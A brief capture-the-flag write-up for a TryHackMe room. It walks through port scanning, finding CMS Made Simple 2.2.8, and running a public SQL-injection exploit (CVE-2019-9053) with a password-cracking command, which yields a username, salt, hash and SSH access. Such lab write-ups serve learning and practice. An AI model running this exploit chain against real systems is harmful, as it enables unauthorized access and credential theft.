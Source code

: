 # Simple CTF

[Simple CTF](https://tryhackme.com/room/easyctf)

## Solution

- nmap scan

21/tcp   open  ftp     vsftpd 3.0.3

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

- dirb scan

there is a dir `simple` where we find "This site is powered by CMS Made Simple
version 2.2.8"

after googling the version for a lot of the tools the
https://www.cvedetails.com/cve/CVE-2019-9053/ CVE seems to do the job. it is a
sql injection vulnerability.

can we try https://www.exploit-db.com/exploits/46635

I changed a bit the code, because it was python2... and who uses python2 in
2023? (change print to parenthesis print. and also install termcolors)
Also, my rockyou.txt is dumb and doesn't work, so I used john's.

`python exploit.py -u http://<ip>/simple --crack -w <wordlist>`

we get
- Salt for password found: 1dac0d92e9fa6bb2
- Username found: mitch
- Email found: admin@admin.com
- Password found: 0c01f4468bd75d7a84c7eb73846e8d96
- Password cracked: *******

next we can ssh into mitch's account


